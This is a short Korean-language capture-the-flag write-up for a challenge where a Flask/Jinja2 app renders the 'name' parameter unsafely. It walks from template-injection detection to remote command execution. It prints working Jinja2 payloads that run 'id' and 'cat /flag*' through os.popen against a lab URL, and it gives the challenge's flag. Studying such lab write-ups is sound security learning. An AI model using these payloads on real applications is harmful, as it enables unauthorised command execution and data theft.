

# 12. SSTI → RCE

## 문제 설명
`name` 파라미터가 템플릿에 그대로 렌더링되어 `hello <name>`을 출력한다.
사용자 입력이 서버 템플릿 엔진에서 평가되는 Server-Side Template Injection이며,
이를 통해 원격 명령 실행(RCE)할 수 있다.

## 분석
- `?name={{7*7}}` → `49` : 템플릿 표현식이 평가됨 (SSTI 확정)
- `?name={{7*'7'}}` → `7777777` : 문자열 곱셈이 동작 → Jinja2/Python(Flask) 엔진

Jinja2에서는 파이썬 객체 체인을 타고 `os` 모듈에 접근해 명령을 실행할 수 있다.

## 익스플로잇

### RCE 확인
```
?name={{cycler.__init__.__globals__.os.popen('id').read()}}
```
결과: `uid=0(root) gid=0(root) groups=0(root)` → root 권한으로 명령 실행됨.

### flag 획득
```
?name={{cycler.__init__.__globals__.os.popen('cat /flag*').read()}}
```
URL 인코딩:
```
http://edu.arang.kr:9207/?name={{cycler.__init__.__globals__.os.popen(%27cat%20/flag*%27).read()}}
```



## 플래그
```
flag{37c924dfa363600e205c}
```
